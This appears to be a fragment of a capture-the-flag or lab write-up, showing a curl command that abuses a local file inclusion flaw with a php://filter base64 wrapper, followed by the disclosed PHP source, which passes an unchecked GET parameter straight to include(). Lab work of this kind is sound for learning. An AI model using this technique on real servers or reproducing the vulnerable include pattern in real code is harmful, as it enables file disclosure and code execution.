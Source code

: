 ┌──(root㉿docker-desktop)-[/]
└─# curl -s 'http://10.201.71.110/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php' | base64 -d

<?php
  //echo "Hello World";
  if(isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
  }
?>

